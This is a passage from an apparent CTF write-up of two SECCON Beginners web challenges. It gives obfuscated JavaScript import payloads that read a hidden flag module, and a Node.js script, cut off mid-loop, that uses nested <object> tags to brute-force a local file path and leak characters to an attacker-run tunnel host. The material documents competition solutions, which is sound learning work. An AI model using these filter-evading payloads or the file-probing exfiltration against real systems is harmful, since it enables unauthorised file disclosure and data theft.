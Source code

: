 ## [web, medium] flagAlias (08:25, 174 pt, 29 teams solved)

We use the payload

```js
(async ()=>{m.a=globalThis["Obj"+"ect"].keys(await import("./fl"+"ag.ts"))})()
```

to extract the key and

```js
(async ()=>{m.a=(await import("./fl"+"ag.ts"))["getRealFl"+"ag_yUC2BwCtXEkg"]["toString"]()})()
```

to call the function.

The flag `ctf4b{y0u_c4n_r34d_4n0th3r_c0d3_in_d3n0}`.

## [web, hard] htmls (09:43, 290 pt, 9 teams solved)

If we show `<object data="$URL1"><object data="$URL2"></object></object>` in browser, the request to `$URL2` will only be sent when the request to `$URL1` fails. Since the directory containing `flag.txt` consists of only single-character directories, we can brute force the character one-by-one.

```js
const app = require("express")();

const server = "https://htmls.beginners.seccon.games/";
const chars = "abcdefghijklmnopqrstuvwxyz0123456789";
let prefix = "file:///var/www/htmls/ctf";
let serverurl = "https://<REDACTED>.trycloudflare.com/";

let queue = [];

async function sleep(time) {
  return new Promise((resolve, reject) => {
    setTimeout(() => resolve(), time);
  });
}
(async () => {
  app.use((req, res, next) => {
    console.log(req.url);
    queue.push(req.url);
    res.end("");
  });

  app.listen(3000);
})();

(async () => {
  for (let i = 0; i < 25; i++) {
    let buf = "";
    for (const char of chars) {
      buf += `<object data="${prefix}/${char}">
            <object data="${serverurl}/${char}"></object>
        </object>`;
    }
    const f = new FormData();
    f.append("html", buf);
    let resp = "503";
    while (resp.includes("503")) {
      resp = await fetch(server, {
        method: "POST",
        body: f,
      }).then((r) => r.text());
      if (resp.includes("503")) {
```